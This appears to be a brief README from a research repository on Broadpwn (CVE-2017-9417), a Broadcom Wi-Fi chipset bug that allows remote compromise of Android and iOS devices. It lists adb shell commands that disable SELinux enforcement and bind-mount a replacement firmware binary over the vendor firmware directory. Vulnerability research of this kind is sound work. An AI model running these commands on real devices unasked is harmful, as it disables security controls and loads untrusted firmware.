 # Broadpwn
Broadpwn bug (CVE-2017-9417)

Remotely Compromising Android and iOS via a Bug in Broadcom’s Wi-Fi Chipsets

  $ adb shell
  
  setenforce 0
  
  cp fw_bcmdhd.bin /data/local/tmp/firmware/
  
  chmod 755 /data/local/tmp/firmware/fw_bcmdhd.bin
  
  mount -o bind /data/local/tmp/firmware /vendor/firmware
  
  stop
  
  start
